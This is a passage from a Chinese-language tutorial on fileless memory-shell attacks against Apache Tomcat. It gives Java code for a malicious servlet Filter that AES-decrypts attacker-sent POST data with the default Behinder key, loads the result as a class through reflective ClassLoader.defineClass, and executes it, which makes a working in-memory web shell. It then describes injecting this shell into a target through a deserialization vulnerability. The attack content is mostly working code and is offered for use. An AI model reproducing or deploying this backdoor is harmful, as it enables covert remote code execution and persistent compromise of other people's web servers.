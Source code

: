 ![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_49_21aUbI0Y.png)

因为我们不能实例化自己的类加载器，所以我们就使用反射的方法，调用ClassLoader，不过这里也有一个坑点，就是抽象类，是不可以作为invoke()的第一个参数，所以要使用一个他的继承类作为替代品，代码如下

```java
//revision BehinderFilter
Method method = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
method.setAccessible(true);
byte[] evilclass_byte = c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()));
Class evilclass = (Class) method.invoke(this.getClass().getClassLoader(), evilclass_byte,0, evilclass_byte.length);
evilclass.newInstance().equals(pageContext);
```
最后doFilter中注入冰蝎马如下所示
```java
// doFilter逻辑
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
    try {
        System.out.println("Do Filter ......");
        // 获取request和response对象
        HttpServletRequest request = (HttpServletRequest) servletRequest;
        HttpServletResponse response = (HttpServletResponse)servletResponse;
        HttpSession session = request.getSession();
        //create pageContext
        HashMap pageContext = new HashMap();
        pageContext.put("request",request);
        pageContext.put("response",response);
        pageContext.put("session",session);
        if (request.getMethod().equals("POST")) {
            String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
            session.putValue("u", k);
            Cipher c = Cipher.getInstance("AES");
            c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
            //revision BehinderFilter
            Method method = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            method.setAccessible(true);
            byte[] evilclass_byte = c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()));
            Class evilclass = (Class) method.invoke(this.getClass().getClassLoader(), evilclass_byte,0, evilclass_byte.length);
            evilclass.newInstance().equals(pageContext);
        }
    }catch (Exception e){
        e.printStackTrace();
    }
    filterChain.doFilter(servletRequest, servletResponse);
    System.out.println("doFilter");
}
```
编译生成对应的TomcatEcho.class,TomcatInject.class，然后通过序列化生成对应的TomcatEcho.ser,TomcatInject.ser,最后通过反序列化漏洞直接在目标web系统中反序列化最后成功注入冰蝎马

